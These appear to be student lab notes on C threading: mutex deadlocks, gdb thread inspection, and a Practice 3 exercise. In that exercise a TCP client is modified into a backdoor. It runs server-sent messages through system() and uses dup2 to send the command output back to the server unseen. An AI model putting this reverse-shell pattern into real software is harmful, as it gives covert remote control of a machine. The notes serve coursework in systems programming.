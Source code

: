 # Lab 2

## Practise 1

> What is a barrier in this context?!?!?

The code is not a perfect lock, the first thread can finish the execution before
if the second is slower.
This will result in a lock for this program, but not for both threads.

Solution:

* Just added a sleep in the threads to sync them up

```
pthread_mutex_lock(&mtx[*param]);
sleep(1);
pthread_mutex_lock(&mtx[1-*param]);
```

## Practice 2

Compile:

```
gcc -O0 -g -o main deadlock.c -pthread
```

Flags:

* `-O0` is "optimisation level 0"
* `-g` (no sure) the symbols for debugger/debugging

Run the program with the debugger:

```
gdb ./main
```

Start the execution with the `gdb` command:

```
run
```

Use ^C (Ctrl + C) to stop the program, it will get stuck in a deadlock

`info thread` will give ass information about threads:

```
(gdb) info thread
  Id   Target Id                               Frame
* 1    Thread 0x7ffff7dca740 (LWP 4852) "main" 0x00007ffff7f97495 in __GI___pthread_timedjoin_ex (threadid=140737351816960, thread_return=0x0, abstime=0x0, block=<optimized out>)
    at pthread_join_common.c:89
  2    Thread 0x7ffff7dc9700 (LWP 4853) "main" __lll_lock_wait ()
    at ../sysdeps/unix/sysv/linux/x86_64/lowlevellock.S:103
  3    Thread 0x7ffff75c8700 (LWP 4854) "main" __lll_lock_wait ()
    at ../sysdeps/unix/sysv/linux/x86_64/lowlevellock.S:103
```

The `*`(start) indicate the current thread, the main thread, which is waiting
on `pthread_join()` function for the other threads.
The other threads are stuck in a`_lll_lock_wait()`

Using `thread <ID>` command can switch the context to another thread.

```
(gdb) thread 2
[Switching to thread 2 (Thread 0x7ffff7dc9700 (LWP 4853))]
#0  __lll_lock_wait () at ../sysdeps/unix/sysv/linux/x86_64/lowlevellock.S:103
103     ../sysdeps/unix/sysv/linux/x86_64/lowlevellock.S: No such file or directory.
```

Now `info stack` will give information about the stack...

```
(gdb) info stack
#0  __lll_lock_wait () at ../sysdeps/unix/sysv/linux/x86_64/lowlevellock.S:103
#1  0x00007ffff7f98714 in __GI___pthread_mutex_lock (mutex=0x5555555580a8 <mtx+40>)
    at ../nptl/pthread_mutex_lock.c:80
#2  0x00005555555551fe in ThrFunc (p=0x7fffffffe06c) at deadlock.c:14
#3  0x00007ffff7f95fa3 in start_thread (arg=<optimized out>) at pthread_create.c:486
#4  0x00007ffff7ec64cf in clone () at ../sysdeps/unix/sysv/linux/x86_64/clone.S:95
```

## Practice 3

Compile the library and the main program:

```
gcc library.c -shared -fPIC -o library.so
gcc main.c -o main -ldl
```

In the `client-server` folder are some programs for a tcp server and a client
that are exchanging simple messages.

As a **experimented modern programer** I'll just copy the code for the client
and modify it to execute the messages from server:

```
	bzero(buff, sizeof(buff)); 
	strcpy(buff, "empty\n");
	write(sockfd, buff, sizeof(buff)); 
    for (;;) { 
        bzero(buff, sizeof(buff)); 
        read(sockfd, buff, sizeof(buff)); 
        if ((strncmp(buff, "exit", 4)) == 0) { 
            printf("Client Exit...\n"); 
            break; 
        } 
		system(buff);
    } 
```

A little trick with file descriptors on linux allow for easy redirecting the output
to the server. So when we send `ls` from server the output will came back to server
and will not be displayed on the "client"/"infected program"

`dup2` will do the job perfectly. Here we save the `sdtout` file descriptor to
set it back later and redirect `stdout` ( fd = 1 ) and `stderr` ( fd = 2 ) to
`sockfd` (server).

```
	// save the stdout for later
	if(dup2(fileno(stdout), old_stdout) == -1) {
		perror("dup2 save stdout");
		exit(1);
	}

	// replace stdout wit sockfd
	if(dup2(sockfd, 1) == -1) {
		perror("dup2 sockfd");
		exit(1);
	}
	// replace stderr with sockfd
	if(dup2(sockfd, 2) == -1) {
		perror("dup2 sockfd");
		exit(1);
	}
```

Now will set the `stdout` and `stderr` back:

```
	// put stdout back and hope nobady observed
	if(dup2(old_stdout, 1) == -1) {
		perror("dup2 set back stdout");
		exit(1);
	}
	if(dup2(old_stderr, 2) == -1) {
		perror("dup2 set back stderr");
		exit(1);
	}
	printf("stdout back to normal\n");
	fprintf(stderr, "stderr back to normal\n");
```
